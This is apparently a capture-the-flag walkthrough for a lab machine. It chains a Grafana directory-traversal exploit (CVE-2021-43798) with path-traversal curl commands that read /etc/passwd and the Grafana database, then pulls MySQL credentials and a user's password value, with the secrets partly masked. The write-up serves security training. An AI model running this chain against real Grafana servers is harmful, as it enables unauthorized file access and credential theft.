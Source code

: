 `python3 50581.py -H http://ambassador.htb:3000`

```
Read file > /etc/grafana/grafana.ini
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = m***7

# used for signing
;secret_key = S***m
```
We got the user and password we can login into sql with this user use this [Another exploit Grafana v.8.2](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/)

`curl --path-as-is http://[Target_IP]:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`

`curl --path-as-is http://[Target_IP]:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

`ls -l grafana.db`

`sqlite3 grafana.db`

Login the sqlite use the user before we got.

```SQL
sqlite> .table
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||d***!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-12-15 05:16:45|0|{}|1|uKewFgM4z
```
We got the credential user and password for login into mysql.

`mysql -h ambassador.htb -u grafana -p`

```SQL
MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
MySQL [whackywidget]> SHOW TABLES;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
MySQL [whackywidget]> SELECT * FROM users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | Y***=                                    |
+-----------+------------------------------------------+
```
And we got the developer user and hash password of developer user. We can decrypt the hash use [cyberchef](https://cyberchef.org/)
